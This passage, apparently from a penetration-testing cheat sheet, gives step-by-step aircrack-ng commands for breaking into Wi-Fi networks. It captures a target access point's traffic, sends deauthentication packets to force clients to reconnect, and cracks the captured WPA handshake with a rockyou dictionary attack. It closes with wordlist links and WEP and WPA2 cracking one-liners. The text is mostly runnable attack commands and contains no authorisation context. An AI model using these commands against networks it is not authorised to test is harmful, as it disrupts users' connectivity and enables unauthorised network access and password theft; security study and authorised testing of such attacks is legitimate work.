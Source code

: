 * Now start capturing the related traffic of your target AP
* `airodump‐ng ‐c 6 ‐‐bssid C0:F6:C2:5E:8D:20 ‐w pass wlan0mon`

4. **Deauthenticate the Wireless clients.**

* `aireplay‐ng ‐0 100 ‐a C0:F6:C2:5E:8D:20 wlan0mon`

> ‐‐0 means deauthentication
>
> 100 is the number of deauth packets to send
>
> ‐a C0:F6:C2:5E:8D:20 is the access point MAC address
>
> ‐wlan0mon is the interface name.

5. **Look for the WPA Handshake in the Notification**

* Press CTRL + C , Once you have handshake

#### Phase 2 - Cracking password

6. **Now you can use the following command to break the password with Dictionary attack**

* aircrack‐ng ‐w /usr/share/wordlists/rockyou.txt ‐b C0:F6:C2:5E:8D:20 pass\*.cap

> ‐w rockyou.txt is the dictionary file. Kali has this inbuilt dictionary already installed
>
> Pass\*.cap is the packet file where a captured handshake is stored.

* Sometimes the password list is compressed and you may need to perform these steps to uncompress the file:`locate rockyou`
* Now uncompress the file: `gunzip /usr/share/wordlists/rockyou.txt.gz`                      `ls /usr/share/wordlists/`
* `aircrack‐ng pass*.cap ‐w /usr/share/wordlists/rockyou.txt`

**And well search/found password!!**

#### Best Alternate Wordlists Collections

* https://weakpass.com/&#x20;
* https://github.com/danielmiessler/SecLists/tree/master/Pass words/WiFi-WPA&#x20;
* https://labs.nettitude.com/blog/rocktastic/
* https://github.com/kennyn510/wpa2-wordlists

### WEP Cracking – AIRCRACK-NG

`aircrack-ng '/root/Desktop/Sample Captures/WEPcrack-01.cap'` ‘’ are not needed if there is no space in folder name.

> We can digit aricrack-ng and drag-and-drop file pcap on terminal.

### WPA2 Cracking – AIRCRACK-NG

`aircrack-ng -a 2 -b 20:E5:2A:E4:38:00 -w /root/Desktop/Wordlists/Passwords.txt '/root/Desktop/Sample Captures/WPA2crack-01.cap'`

> \-a 2: mode WPA2
>
> \-b: BSSID, we can retrieve it in the frame of pcap file.
>
> \-w: wordlist
